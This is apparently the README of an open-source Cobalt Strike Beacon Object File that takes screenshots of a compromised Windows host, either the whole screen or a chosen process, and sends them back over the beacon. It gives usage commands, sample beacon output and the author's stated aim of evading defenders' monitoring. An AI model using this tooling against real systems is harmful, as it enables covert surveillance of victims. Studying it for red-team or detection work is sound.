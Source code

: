 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

# Release 2.0
- JPEG is used in place of BMP
- Moved to mingw
- Added beacon screenshot callback option
- Removed BMP renderer (it will be missed)
- Supports capturing of minimized windows

## Self Compilation
1. git clone the repo
2. run `make`

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)
2. download file over beacon as a screenshot (Cobalt Strike only)

## PID
0: capture full screen (PID = 0)
specific PID: capture specific PID (works even when minimized!)

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename} {save method 0/1/2} {pid/0}
  
```
beacon> screenshot_bof file.jpg 2 21964
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 12421 bytes
[+] received output:
Downloading JPEG over beacon as a screenshot with filename file.jpg
[*] received screenshot of Screenshot from Admin (26kb)
[+] received output:
Screenshot saved/downloaded successfully
```


## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- @BinaryFaultline for (deprecated) BMP rendering in aggressorscript, and screenshot callback function
- bitmap to jpeg from https://github.com/WKL-Sec/HiddenDesktop

## Disclaimer
usual disclaimer here, I am not responsible for any crimes against humanity you may commit or nuclear war you may cause using this piece of poorly written code.
